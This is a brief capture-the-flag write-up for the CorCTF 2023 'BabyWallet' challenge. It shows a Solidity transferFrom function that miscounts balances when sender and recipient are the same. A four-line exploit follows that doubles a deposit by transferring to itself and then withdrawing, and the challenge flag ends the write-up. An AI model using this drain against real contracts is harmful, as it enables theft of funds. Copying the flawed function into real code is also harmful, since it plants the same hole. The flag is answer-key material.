 # CorCTF 2023

## BabyWallet

The following `transferFrom` is vulnerable if `from == to`.

```solidity
function transferFrom(address from, address to, uint256 amt) public {
    uint256 allowedAmt = allowances[from][msg.sender];
    uint256 fromBalance = balances[from];
    uint256 toBalance = balances[to];

    require(fromBalance >= amt, "You can't transfer that much");
    require(allowedAmt >= amt, "You don't have approval for that amount");

    balances[from] = fromBalance - amt;
    balances[to] = toBalance + amt;
    allowances[from][msg.sender] = allowedAmt - amt;
}
```

Exploit:

```solidity
wallet.deposit{value: 100 ether}();
wallet.approve(address(this), 100 ether);
wallet.transferFrom(address(this), address(this), 100 ether);
wallet.withdraw(200 ether);
```

Flag: `corctf{inf1nite_m0ney_glitch!!!}`
